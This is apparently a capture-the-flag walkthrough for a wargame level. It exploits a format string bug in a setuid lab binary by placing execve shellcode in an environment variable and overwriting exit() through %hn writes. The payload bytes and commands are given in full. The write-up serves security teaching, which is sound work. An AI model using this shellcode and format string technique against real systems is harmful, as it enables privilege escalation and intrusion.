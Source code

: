 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase, if it's part of the ASCII table
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution will consist of storing a shellcode inside an environment variable and overwrite `exit()` with its address. We need to export the shellcode, otherwise any values corresponding to an uppercase letter in ASCII will be modified by the program. So the goal is to use the `%n` specifier, with which we will send the address of the environment variable as a decimal number and store it inside the `exit()` call.

First, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Now, let's retrieve the address of a random NOP instruction inside our environment variable:
```Shell
(gdb) x/s *((char **)environ)
0xffffd872:      "SHELLCODE=[...]
```

Writing the address in one go is impossible because it exceeds the capacity of an `int`, therefore crashing `%d` and `%n` (as `%n` takes an `*int` as argument). We are forced to divide it and store each part in a `short int`, aka `%hn`.
So our payload will consist in:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn
```Shell
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55414d" + "%10$hn" + "%10113d" + "%11$hn")'; cat) | ./level05
```

The address of the environment variable storing our shellcode is 0xffffd872, we will add 12 (0xffffd87e) to be sure this address correspond to a NOP instruction, which gives us, in decimal:
ffff = 65535 / d87e = 55422
Since we're in little endian, we start with `d87e`, minus 8 (because of the 8 bytes of the address of `exit()`): 55414.
Then, for `ffff` minus 8 and minus 55414, so we get: 10113.
We will place each value next to each other on the stack, therefore they will be placed at index 10 and index 11, respectively.